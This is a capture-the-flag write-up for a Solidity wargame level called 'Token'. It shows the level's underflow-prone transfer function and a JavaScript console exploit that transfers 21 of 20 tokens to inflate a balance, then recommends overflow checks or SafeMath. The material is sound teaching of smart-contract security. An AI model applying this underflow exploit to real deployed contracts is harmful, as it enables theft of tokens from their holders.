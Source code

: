 # 05. Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

## Solution

We notice two things:

```solidity
// 1. Solidity version is up to 0.6
pragma solidity ^0.6.0;

//[...]

// 2. Transfer function perform our math 
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```

What's the link between them? **Overflows**

Until Solidity compiler 0.8.* math operations are subject to over and underflows, that's why the SafeMath module is used.

Note `MAX_INT == 2 ** 256 - 1`. `0 - 1 == MAX_INT`, so `MAX_INT + 1 == 0`, hence the solution is pretty straightforward:

```javascript
await contract.balanceOf(player)
// -> 0: 20
const fakeUser = '0x5B38Da6a701c568545dCfcB03FcB875f56beddC4'  // got from remix account
await contract.transfer(fakeUser, 21)
await contract.balanceOf(player)
// -> 0: 67108863
// 1: 67108863
// 2: 67108863
// 3: 67108863
// 4: 67108863
// 5: 67108863
// 6: 67108863
// 7: 67108863
// 8: 67108863
// 9: 4194303
```

This works because `balances[msg.sender] -= _value;` will set the MAX_INT value to the `msg.sender` that would be us. To keep our tokens the `_to` address has to be another account because `MAX_INT + 1 == 0` and we will loose all the accumulated tokens. Also, we set `_value` to 21 because we have 20 starting tokens.

## OZ Corner

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```solidity
a = a.add(c);
```

If there is an overflow, the code will revert.